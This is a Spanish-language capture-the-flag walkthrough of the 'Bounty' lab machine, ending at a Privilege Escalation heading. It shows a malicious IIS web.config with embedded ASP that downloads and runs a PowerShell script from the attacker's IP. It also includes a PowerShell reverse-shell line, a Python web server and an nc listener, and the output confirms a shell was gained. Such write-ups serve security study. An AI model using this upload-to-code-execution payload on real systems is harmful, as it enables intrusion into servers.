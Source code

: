     Modificamos el fichero PS.ps1 para añadir `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 443` al final del fichero

1. Modificamos el web.config para que descarge el fichero PS.ps1 al momento que lo lanzemos.

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
    <system.webServer>
        <handlers accessPolicy="Read, Script, Write">
            <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
        </handlers>
        <security>
            <requestFiltering>
                <fileExtensions>
                <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                <remove segment="web.config" />
                </hiddenSegments>
            </requestFiltering>
        </security>
    </system.webServer>
    </configuration>
    <!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
    <%
    Set co = CreateObject("WScript.Shell")
    Set cte = co.Exec("cmd /c powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PS.ps1')")
    output = cte.StdOut.Readall()
    Response.write(output)
    %>
    -->
    ```

1. Uploadeamos el fichero en la web

1. Lanzamos un servidor web con pyhton

    ```bash
    python -m http.server 80
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Navigamos al url `http://10.10.10.93/uploadedFiles/web.config`

Y vemos que ganamos accesso al systema

```bash
whoami

#Output
bounty\merlin
```
## Privilege Escalation {-}
